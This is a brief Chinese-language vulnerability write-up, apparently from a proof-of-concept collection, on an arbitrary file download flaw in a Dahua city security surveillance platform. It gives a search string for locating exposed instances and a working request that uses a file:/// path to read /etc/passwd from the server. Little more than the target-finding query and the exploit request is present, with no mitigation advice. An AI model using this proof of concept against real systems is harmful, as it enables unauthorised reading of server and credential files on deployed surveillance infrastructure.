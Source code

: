 # 大华 城市安防监控系统平台管理 attachment_downloadByUrlAtt.action 任意文件下载漏洞

## 漏洞描述

大华城市安防监控系统平台管理存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

大华城市安防监控系统平台管理

## 网络测绘

```
"attachment_downloadByUrlAtt.action"
```

## 漏洞复现

登录页面

![image-20230704113653161](images/image-20230704113653161.png)

验证POC

```
/portal/attachment_downloadByUrlAtt.action?filePath=file:///etc/passwd
```

![image-20230704113705975](images/image-20230704113705975.png)